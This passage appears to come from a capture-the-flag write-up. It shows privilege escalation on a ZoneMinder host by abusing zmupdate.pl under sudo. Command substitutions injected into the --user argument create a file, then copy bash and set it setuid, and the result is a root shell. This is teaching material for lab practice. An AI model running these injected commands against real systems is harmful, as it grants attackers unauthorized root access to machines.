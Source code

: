 ```bash
/usr/bin/zmsystemctl.pl
/usr/bin/zmtelemetry.pl
/usr/bin/zmtrack.pl
/usr/bin/zmtrigger.pl
/usr/bin/zmupdate.pl
/usr/bin/zmvideo.pl
/usr/bin/zmwatch.pl
/usr/bin/zmx10.pl
```

Try abusing the `zmupdate.pl` binary.

```bash
$ zoneminder@surveillance:/usr/share/zoneminder/www$ sudo /usr/bin/zmupdate.pl --version 1 --user ' $(touch /tmp/owo)'

zoneminder@surveillance:/usr/share/zoneminder/www$ ls -la /tmp
...
-rw-r--r--  1 root     root        0 Jun 30 08:54 owo
...

zoneminder@surveillance:/usr/share/zoneminder/www$ sudo /usr/bin/zmupdate.pl --version 1 --user ' $(cp /bin/bash /tmp)'
...
zoneminder@surveillance:/usr/share/zoneminder/www$ sudo /usr/bin/zmupdate.pl --version 1 --user ' $(chmod u+s /tmp/bash)'
...
zoneminder@surveillance:/usr/share/zoneminder/www$ /tmp/bash -p
whoami
root
```

